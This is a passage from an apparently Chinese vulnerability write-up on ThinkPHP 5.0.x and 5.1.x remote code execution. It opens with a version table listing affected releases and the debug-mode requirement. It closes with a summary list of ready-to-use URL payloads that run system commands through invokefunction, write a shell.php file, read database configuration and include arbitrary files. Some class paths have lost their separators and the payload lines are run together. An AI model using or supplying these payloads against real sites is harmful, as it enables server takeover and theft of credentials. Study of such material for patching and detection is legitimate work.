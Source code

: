 <td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.15</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.16</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.17</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.18</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.19</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.20</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">否</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">无</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.21</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.22</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr><tr><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">5.0.23</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">是</td><td style="padding: 8px 14px;border-color: rgb(192, 192, 192);border-collapse: collapse;min-width: 50px;">需开启debug</td></tr></tbody></table>  
5.0.13~5.0.19默认情况下config中的app_debug配置项为false，复现的时候需要开启这个  
  
总结一下  
  
5.1.x ：  
```
?s=index/thinkRequest/input&filter[]=system&data=pwd?s=index/thinkviewdriverPhp/display&content=<?php phpinfo();?>?s=index/thinktemplatedriverfile/write&cacheFile=shell.php&content=<?php phpinfo();?>?s=index/thinkContainer/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id?s=index/thinkapp/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```  
  
5.0.x ：  
```
?s=index/thinkconfig/get&name=database.username # 获取配置信息?s=index/thinkLang/load&file=../../test.jpg    # 包含任意文件?s=index/thinkConfig/load&file=../../t.php     # 包含任意.php文件?s=index/thinkapp/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id?s=index|thinkapp/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
```  
  